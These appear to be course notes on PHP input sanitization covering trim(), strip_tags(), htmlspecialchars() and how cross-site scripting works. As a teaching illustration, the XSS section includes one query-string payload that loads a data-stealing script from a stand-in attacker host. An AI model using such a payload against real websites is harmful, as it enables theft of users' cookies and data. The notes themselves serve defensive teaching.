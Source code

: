 ```yaml
---
title: PHP - Sanitization
course: SDEV255
---
```


- [Sanitization](#sanitization)
  - [Validation vs Sanitization](#validation-vs-sanitization)
  - [Purpose of Sanitization](#purpose-of-sanitization)
  - [Removing Unwanted Values](#removing-unwanted-values)
    - [trim()](#trim)
    - [strip_tags()](#strip_tags)
  - [Escaping Values](#escaping-values)
    - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
      - [How XSS Works](#how-xss-works)
      - [XSS Example](#xss-example)
    - [htmlspecialchars()](#htmlspecialchars)
  - [Topics for Later](#topics-for-later)

# Sanitization

## Validation vs Sanitization

**Validation** - is the process of ensuring that the input matches the expected format, range, type, length, etc.

**Sanitization** - is the process of removing unwanted characters, whitespace, HTML tags, etc.

## Purpose of Sanitization

- Prevents malicious code from being injected into application
- Prevents unwanted characters from being
  - Displayed to the user
  - Stored in database
  - Stored in files
  - Sent to other applications

## Removing Unwanted Values

### trim()

- Removes whitespace from beginning and end of a string
- May optionally specify which characters to remove

```php
<?php
$cleanedInput = trim($userInput);
?>
```

### strip_tags()

- Removes HTML tags from a string
- May optionally specify which tags to allow

```php
<?php
$cleanedInput = strip_tags($userInput);
?>
```

## Escaping Values

**Escaping** - is the process of converting special characters to their HTML entity equivalents.

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** - is a type of injection attack where malicious scripts are injected into trusted websites.

The scripts may then:

- Steal cookies and session tokens
- Redirect the user to another website
- Send content to other applications

#### How XSS Works

1. Hacker visits a website and probes for query string vulnerabilities.

<figure>
 <img src="images/hacker.jpg" alt="" style="width: 40%;height: auto;">
</figure>

2. Hacker finds query string named `q` is not sanitized.

3. Hacker tricks other people into visiting website with following query string: `q=<script src=http://really-terrible-site/steal-data.js></script>`

4. JS file runs on victim's browser and sends data to hacker's website.

5. Hacker sells data on the dark web and buys yacht.

<figure>
 <img src="https://media.boatsnews.com/src/images/news/articles/ima-computer-science-screen-37738.webp" alt="" style="width: 40%;height: auto;">
</figure>

#### XSS Example

<p class="demo">Walkthrough</p>

[Text: Example of an XSS Attack](http://localhost/phpbook/section_b/c06/)

### htmlspecialchars()

- Converts special characters to HTML entities
- May optionally specify which characters to convert and the character encoding

```php
<?php
$input = '<script>alert("XSS");</script>';
?>

<p><?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?></p
```

## Topics for Later

We have not covered these yet, but santization is also important for:

- Database queries
- File uploads
